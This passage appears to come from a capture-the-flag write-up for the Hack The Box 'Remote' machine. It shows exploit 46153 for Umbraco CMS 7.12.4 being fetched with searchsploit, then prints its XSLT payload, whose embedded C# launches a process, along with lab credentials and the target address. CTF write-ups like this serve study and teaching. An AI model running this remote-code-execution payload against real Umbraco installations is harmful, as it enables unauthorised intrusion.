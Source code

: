 ![CMS version](/assets/htb/Remote/cms-version.png)

The used CMS version is 7.12.4, which means that this installation is vulnerable to the exploit.

#### Modifying the exploit to get a shell

```bash
root@darkness:~# searchsploit -m aspx/webapps/46153.py
  Exploit: Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution
      URL: https://www.exploit-db.com/exploits/46153
     Path: /usr/share/exploitdb/exploits/aspx/webapps/46153.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /root/46153.py
```

We can now copy the exploit and have the change the following lines:

```python
# Execute a calc for the PoC
payload = '<?xml version="1.0"?><xsl:stylesheet version="1.0" \
xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" \
xmlns:csharp_user="http://csharp.mycompany.com/mynamespace">\
<msxsl:script language="C#" implements-prefix="csharp_user">public string xml() \
{ string cmd = ""; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
 proc.StartInfo.FileName = "calc.exe"; proc.StartInfo.Arguments = cmd;\
 proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true; \
 proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; } \
 </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/>\
 </xsl:template> </xsl:stylesheet>';

# Authentication information
login = "admin@htb.local";
password="beaconandcheese";
host = "http://10.10.10.180";
```
